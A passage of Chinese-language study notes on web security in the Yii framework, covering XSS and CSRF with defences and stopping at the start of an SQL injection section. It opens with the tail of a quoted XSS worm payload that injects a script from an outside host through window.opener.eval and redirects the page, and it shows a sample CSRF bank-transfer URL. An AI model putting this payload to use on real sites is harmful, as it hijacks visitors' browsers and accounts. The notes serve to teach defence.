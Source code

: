 ```js
	}
	catch(e){}
	try{
		follow();
	}
	catch(e){}
	try{
		message();
	}
	catch(e){}
}
try{
   x="g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";window.opener.eval(x);
}
catch(e){}
main();
var t=setTimeout('location="http://weibo.com/pub/topic";',5000);
```

### 预防
1.使用 `\yii\helpers\Html::encode('内容');` 进行html实体编码转义  
2.将过滤掉js的代码 `\yii\helpers\HtmlPurifier::process('内容');` 浏览器认为哪段是js代码，yii就根据浏览器相同的算法识别出js代码

## CSRF攻击  
原理：跨站请求伪造，假设要攻击A网站，在B网站通过伪装的访问A网站的链接，当用户进行点击或者提交表单的时候数据是给到A网站的，从而实现攻击。一般并不会有什么问题，大多数有破坏性的操作都是需要登录的。(**这里就要用到登录，这个登录要么诱骗，要么撞运气，目标已经登录过那个网站并且用了自动登陆功能，这样在访问目标网站的时候，会携带上自动登陆的cookie信息从而实现登陆**)。不需要js来去辅助执行

**get类型的CSRF攻击**
例如，某网上银行的漏洞
```
http://www.xxxbank.com/index.php?from=zhangsan&to=lisi&money=400
//zhangsan转给lisi400块
```

**post类型的CSRF攻击**
需要用户先登录，仿照需要攻击的网站的表单，设法让用户访问自己的仿照的表单发送给攻击的网站而达成目的

### CSRF防御
1. 判断 `Referer` 头,但是有时候请求不会携带这个请求头  
2. 防伪措施，请求表单的时候，将防伪标识插入到表单，表单提交的时候进行比对

yii默认是开启防止CSRF攻击的 表单中加入 `name = _csrf` 的隐藏input标签  
同时将 `_csrf` 存入到cookie中，请求的时候两个都会进行携带，进行比对，cookie中的是加过密的，后台获取后进行解密，并和表单进行比对
获取 `_csrf` 的值
```
\YII::$app->requrst->csrfToken;
```

## sql注入
现在由于框架的支持，sql注入已经很难了。但也可能那个倒霉蛋不用框架给的方法，而是自己拼接sql，那问题还是有的  
